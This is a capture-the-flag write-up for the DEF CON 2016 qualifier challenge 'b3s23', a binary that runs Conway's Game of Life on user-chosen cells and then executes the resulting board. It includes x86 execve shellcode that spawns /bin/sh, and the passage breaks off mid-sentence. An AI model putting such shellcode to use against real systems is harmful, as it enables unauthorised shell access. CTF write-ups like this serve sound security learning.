 # DEFCON Qualifier 2016: b3s23

----------
## Challenge details
| Contest        | Challenge     | Category  | Points | Solves |
|:---------------|:--------------|:----------|-------:|-------:|
| DEF CON CTF Quals 2016 | b3s23 | Coding Challenges |    111 | 34 |

**Description:**

> Please enjoy a Game of Life at b3s23_28f1ea914f8c873d232da030d4dd00e8.quals.shallweplayaga.me:2323
>
> [Download](http://download.quals.shallweplayaga.me/28f1ea914f8c873d232da030d4dd00e8/b3s23)

-------

## Write-up

### Background

From [Wikipedia](https://en.wikipedia.org/wiki/Conway%27s_Game_of_Life) we learn that b3s23 is the standard way of symbolizing Conway's Game of Life, where a cell is born if it has exactly 3 neighbors, survives if it has 2 or 3 living neighbors, or dies if neither is true. 

### Binary Details

```bash
$ file b3s23
ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
```

### Execution
Upon running the binary we receive the following:
```bash
$ docker run -i legitbs/b3s23
Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.
```
It is assumed that we need to enter coordinates in the form x,y (e.g. 1,2) followed by any other character in order to set the positions of the initial live cells on the gameboard and iterate the Game of Life. For example, in order to create a a Block, a [still life](https://en.wikipedia.org/wiki/Still_life_(cellular_automaton)), one could enter the following,
```
0,0
0,1
1,0
1,1
a
```
An excerpt of the output would be
```
110000
110000
000000
```
It was observed from the output that the game was iterating 15 times and then the connnection was closed. The output contained a 110x110 gameboard. I verified that if a coordinate less than 0 or greater than 109 was entered the following error would be printed.
```bash
110,0
Illegal Coordinate!
```
While running it locally, a `Segmentation fault (core dumped)` was reported. The initial assumption was that the result of the final iteration from the Game of Life was being executed by the binary somehow.

### Reverse Engineering

(TBD)

### Solution
To solve this challenge I decided to construct an initial Game of Life board such that the final board would contain assembly code that when executed would provide an interactive shell to the client. I started with the following shellcode,

```assembly
mov    $0xb,%al       "\xb0\x0b"                    
cltd                  "\x99"                        
push   %edx           "\x52"                        
push   $0x68732f2f    "\x68\x2f\x2f\x73\x68"        
push   $0x6e69622f    "\x68\x2f\x62\x69\x6e"        
mov    %esp,%ebx      "\x89\xe3"                    
push   %edx           "\x52"                        
push   %ebx           "\x53"                        
mov    %esp,%ecx      "\x89\xe1"                    
int    $0x80          "\xcd\x80"                    
```

Due to the
